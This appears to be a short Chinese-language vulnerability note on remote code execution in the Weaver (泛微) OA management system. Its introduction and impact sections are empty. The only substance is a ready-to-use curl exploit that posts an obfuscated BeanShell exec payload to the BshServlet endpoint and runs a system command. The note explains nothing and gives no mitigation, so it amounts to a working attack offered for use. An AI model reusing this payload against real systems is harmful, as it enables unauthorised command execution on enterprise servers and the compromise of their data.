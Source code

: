 ```yaml
---
title: "泛微OA管理系统RCE漏洞"
id: zhfly3330
---
```


# 泛微OA 管理系统RCE漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
curl http://0-sec.org:8000/weaver/bsh.servlet.BshServlet -d 'bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw' 
```